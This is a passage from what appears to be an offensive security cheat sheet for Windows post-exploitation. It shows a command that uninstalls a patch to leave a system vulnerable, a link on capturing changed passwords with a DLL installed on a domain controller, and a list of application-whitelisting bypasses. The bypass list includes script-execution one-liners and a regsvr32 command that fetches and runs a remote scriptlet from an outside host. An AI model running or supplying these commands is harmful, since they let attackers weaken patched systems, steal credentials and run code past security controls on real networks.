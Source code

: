 #### Uninstall a patch to leave the system vulnerable

```
    wusa.exe /uninstall /kb:976932
```

#### Create custom DLL for password filters and install on DC to capture changed passwords

- http://carnal0wnage.attackresearch.com/2013/09/stealing-passwords-every-time-they.html

### Application Whitelisting Bypass Techniques

[SubTee Collection of Whitelist Bypass Techniques ](https://github.com/subTee/ApplicationWhitelistBypassTechniques/blob/master/TheList.txt)
https://bitbucket.org/jsthyer/wevade.git

Version .0.0.3

```
1. IEExec -This technique may work in certain environments.  Its relies on the fact that many organizations trust executables signed
by Microsoft.  We can misuse this trust by launching a specially crafted .NET application.
Example Here: https://room362.com/post/2014/2014-01-16-application-whitelist-bypass-using-ieexec-dot-exe/

2.  Rundll32.exe

3.  ClickOnce Applications dfsvc.exe dfshim.dll

4.  XBAP - XML Browser Applications WPF PresentationHost.exe

5.  MD5 Hash Collision
http://www.mathstat.dal.ca/~selinger/md5collision/

6.  PowerShell - Specifically Reflective Execution
http://clymb3r.wordpress.com/2013/04/06/reflective-dll-injection-with-powershell/
https://www.defcon.org/images/defcon-21/dc-21-presentations/Bialek/DEFCON-21-Bialek-PowerPwning-Post-Exploiting-by-Overpowering-Powershell.pdf

7. .HTA Application Invoke PowerShell Scripts
    Launched by mshta.exe, bypasses IE security settings as well.

8.  bat, vbs, ps1
    1. cmd.exe /k < script.txt
    2. cscript.exe //E:vbscript script.txt
    3. Get-Content script.txt | iex

9. Malicious Troubleshooting packs - MSDT.exe
    Reference: http://cybersyndicates.com/2015/10/a-no-bull-guide-to-malicious-windows-trouble-shooting-packs-and-application-whitelist-bypass/
    Thanks to @nberthaume, @Killswitch_GUI

10. InstallUtil.exe
    A signed MS binary that loads assemblies and executes - One of the best.
    Examples here: https://gist.github.com/subTee

11. Regsvcs/Regasm
    See: https://gist.github.com/subTee/fb09ef511e592e6f7993
    These 2 are Excellent.

12. regsvr32.exe
    https://gist.github.com/subTee/24c7d8e1ff0f5602092f58cbb3f7d302
    This one is just simply amazing...
    regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll

```